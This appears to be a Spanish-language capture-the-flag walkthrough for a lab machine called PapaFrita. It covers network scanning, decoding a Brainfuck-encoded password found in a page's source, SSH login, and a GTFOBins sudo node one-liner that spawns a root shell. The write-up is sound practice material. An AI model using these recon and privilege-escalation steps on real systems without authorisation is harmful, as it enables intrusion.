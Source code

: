 # PapaFrita

Maquinas que vamos a utilizar Kali Linux y PapaFrita  [https://thehackerslabs.com/papafrita/](https://thehackerslabs.com/papafrita/)

```bash
sudo arp-scan -I eth0 --localnet
```

![image.png](./imagenes/image%2086.png)

```bash
nmap -p- -sS -sV -sC --open -min-rate=2000 -n -vvv -Pn 10.0.3.30
```

![image.png](./imagenes/image%2087.png)

- Miramos lo que corre dentro del puerto 80 en el navegador web
    
    ![image.png](./imagenes/d8fbbd25-60d9-4c89-ac95-74ac20575f86.png)
    
    A simple vista no hay nada interesante pero vamos a revisar el código fuente.
    
    `CTRL+Z`
    
    ![image.png](./imagenes/image%2088.png)
    
    Nos encontramos estas curiosas lineas que parecen estar escrito en **Brainfuck** por tanto vamos a intentar descodificar el codigo .
    
- Voy a usar la web [https://www.dcode.fr/](./imagenes/https://www.dcode.fr/) para intentar desentrañar el código.
    
    ![image.png](./imagenes/image%2089.png)
    
    `abuelacalientalasopa` Parece una contraseña
    

- Probando distintos nombres de usuario nos vamos por la opción más lógica. Y elegimos de usuario **abuela para el SSH.**
    
    ```bash
    ssh [abuela@10.0.3.30](./imagenes/mailto:abuela@10.0.3.30)
    ```
    
    ![image.png](./imagenes/image%2090.png)
    
- Listamos privilegios para ver los permisos **sudo -l**
    
    `sudo -l`
    
    ![image.png](./imagenes/image%2091.png)
    
- Usamos [https://gtfobins.github.io/](./imagenes/https://gtfobins.github.io/)
    
    ![image.png](./imagenes/image%2092.png)
    

`sudo /usr/bin/node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'`

`whoami`

![image.png](./imagenes/image%2093.png)
